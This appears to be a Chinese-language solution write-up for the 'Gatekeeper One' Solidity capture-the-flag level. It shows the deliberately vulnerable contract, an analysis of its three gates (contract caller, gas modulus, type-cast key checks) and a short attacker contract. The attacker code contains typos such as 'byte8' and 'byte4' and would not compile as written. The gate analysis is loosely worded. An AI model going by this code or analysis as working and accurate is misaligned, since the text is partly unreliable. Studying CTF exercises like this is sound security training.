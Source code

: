 # Gatekeep one
solidity的各类型转换
```solidity
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### 代码分析
1. gateOne说明接口需要通过合约调用
2. gateTwo说明到执行gateTwo的时候，gasleft的数量要为8191的倍数
    1. 可以先部署好攻击合约，查询到攻击合约执行到gateTwo时合约的剩余gas数量来确定需要设定的gas
3. gateThree说明：
    1. uint32(_gateKey) == uint16(tx.origin)： gateKey(共16位)的最后四位与tx.origin的后四位相同
    2. uint32(_gateKey) == uint16(_gateKey)：gateKey的第8为至12为应该全为0；
    3. uint32(_gateKey) != uint64(_gateKey)：gatekey的前8位不全为0
    
### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract Test {
    address public addr;
    function Test () {
        addr = your instance address;
    }
    
    function send(byte8 key, uint256 gasAmount) {
        addr.call.gas(gasAmount)(byte4(keccak256("enter(bytes8)")), key);
    }
}
```
### 攻击方法
1. 发布攻击合约，攻击合约中attack方法中调用了enter方法
2. 调用攻击合约，传入的gateKey满足上述条件